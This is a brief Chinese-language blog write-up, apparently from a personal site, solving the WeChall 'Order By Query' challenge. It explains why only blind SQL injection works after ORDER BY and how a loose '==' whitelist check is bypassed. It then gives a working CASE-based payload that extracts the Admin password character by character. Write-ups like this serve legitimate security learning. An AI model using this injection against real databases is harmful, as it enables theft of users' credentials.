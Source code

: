 ```yaml
---
title: Order By Query
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/05/26/host-me
  - /writeup/2014/05/26/host-me/
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/order\_by\_query/index.php][1]  
用户输入在`order by`后面出现，只能用盲注  
另外由于会检查参数`by`是否在白名单里，但用的是`==`，所以只要第一个字符是有效的数字即可

用二分法读内容  
<pre>
by=1,(case when (ascii(substring((select password from users where username=0x41646d696e),1,1))=51) then 3 else 1*(select apples from users)end)
</pre>

 [1]: http://www.wechall.net/challenge/order_by_query/index.php
